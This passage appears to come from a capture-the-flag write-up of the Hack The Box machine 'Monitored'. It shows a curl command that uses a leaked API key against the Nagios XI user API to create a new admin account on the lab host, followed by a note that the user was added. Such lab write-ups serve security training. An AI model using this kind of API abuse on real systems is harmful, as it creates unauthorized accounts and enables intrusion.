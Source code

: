 ![image32](../resources/8dc949542ec945968ad65f2332bdc71f.png)

- According to the article above, we can do something like this:

```bash
curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin1&password=password1&name=john%20smit&email=john@localhost"

```

![image33](../resources/67c6b946fecd429793abeeda4d600277.png)

- Added a user:
